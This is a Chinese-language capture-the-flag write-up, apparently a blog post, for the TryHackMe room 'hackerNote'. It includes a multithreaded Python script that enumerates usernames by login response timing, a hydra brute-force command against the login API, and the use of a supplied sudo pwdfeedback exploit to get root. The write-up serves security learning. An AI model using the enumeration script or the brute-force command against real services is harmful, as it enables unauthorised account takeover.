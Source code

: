 # hackerNote

自定义 Web 应用程序，引入用户名枚举、自定义单词列表和基本权限提升漏洞。

---

## 端口扫描

循例 nmap

![在这里插入图片描述](https://img-blog.csdnimg.cn/6a2934c877904143a3597156d970f0ae.png)

## Web

80和8080都是一样的页面，并且存在一个登录页面

![在这里插入图片描述](https://img-blog.csdnimg.cn/7aca9d3bf2f34681bea86c8dec082889.png)

除此之外还有另一个信息就是它只有一个用户

存在注册功能，我们注册一个用户并登录

![在这里插入图片描述](https://img-blog.csdnimg.cn/54c209ddecdb42c2a375574a8087b75f.png)

## Get a Trick

根据thm的引导，我们退出登录

尝试登录无效的账户，而收到登录失败这个响应的时间是差不多2秒

而尝试登录已存在的账户，这个时间则是3秒

我们就可以利用此**微妙的细节**来进行用户枚举

这里通过自己写的多线程py脚本来枚举

**由于openvpn不是特别稳定，容易导致极大的网络延迟，建议在攻击盒上运行脚本**

```python
import requests
from threading import Thread
import time
import sys

thread_num = int(sys.argv[2])
dictPath = sys.argv[1]
thread_list = []
url = "http://10.10.252.137/api/user/login"
valid_list = []


def login(*userList):
    for user in userList:
        data = {"username":user.strip(), "password":"123"}
        start_time = time.time()
        requests.post(url, json=data)
        end_time =time.time()
        ttime = end_time - start_time
        print(ttime)
        if ttime >= 1.0:
            print(f"find: {user}")
            sys.exit()


if __name__ == "__main__":

    user_list = open(dictPath).readlines()

    length = len(user_list)
    step = int(length / thread_num) + 1

    for start in range(0, length, step):
        sub_user_list = user_list[start:start + step]
        t = Thread(target=login, args=(sub_user_list))
        thread_list.append(t)
        t.start()

    for t in thread_list:
        t.join()

    print("done")
```

房间中给了一个缩短的字典，利用这个字典很快就能爆出用户名

![在这里插入图片描述](https://img-blog.csdnimg.cn/56679ea84db743878a09839de4dfe1a4.png)

## 密码爆破

密码提示是“我最喜欢的颜色和我最喜欢的数字”

因此我们可以获得颜色的单词列表和数字的单词列表，并使用Hashcat Util的Combinator将它们组合在一起，这将为我们提供两个单词表的每个组合。使用此词表，我们可以使用 Hydra 攻击登录 API 路由并找到用户的密码。下载附加的单词列表文件，查看它们，然后使用hashcat-util的组合器组合它们。

Hashcat utils可以从以下位置下载： https://github.com/hashcat/hashcat-utils/releases

生成密码字典：

![在这里插入图片描述](https://img-blog.csdnimg.cn/5fb1ee9495df494797b60fc3bb29cc18.png)

有了字典就可以开始爆破，使用hydra:

```bash
hydra -l james -P ./wordlist.txt 10.10.252.137 http-post-form '/api/user/login:username=james&password=^PASS^:F=Invalid'
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/36765b9246a346e9b26e3bb06e265082.png)

登录james，发现直接给出了ssh密码

![在这里插入图片描述](https://img-blog.csdnimg.cn/e01d5826552442f097e00c8bb32194e5.png)

## sudo缓冲区溢出提权

直接登录ssh，拿到user.txt

![在这里插入图片描述](https://img-blog.csdnimg.cn/52aa9f2a1afb4468b89ad77d0c695240.png)

房间引导我们查看sudo -l，当前用户无法以 root 身份运行任何命令。但是，您可能已经注意到，当您输入密码时，您会看到星号。这不是默认行为。最近发布的 CVE 会影响此配置。该设置称为 pwdfeedback

我们稍后也将去另一个[房间](https://tryhackme.com/room/sudovulnsbof)学习这个漏洞

房间为我们提供了exp，我们直接下载过来用

![在这里插入图片描述](https://img-blog.csdnimg.cn/1c96d1e0f9644636a0767bca9a15b689.png)

成功getroot，root.txt还在老地方

---

## 结束

其实这个房间最有意思的点在用户枚举的部分，非常的细节，虽然在thm的burp教程当中有教过类似的时间戳查看方法，但这是第一次将其应用于实践，并且还是自己写脚本，这是非常棒的
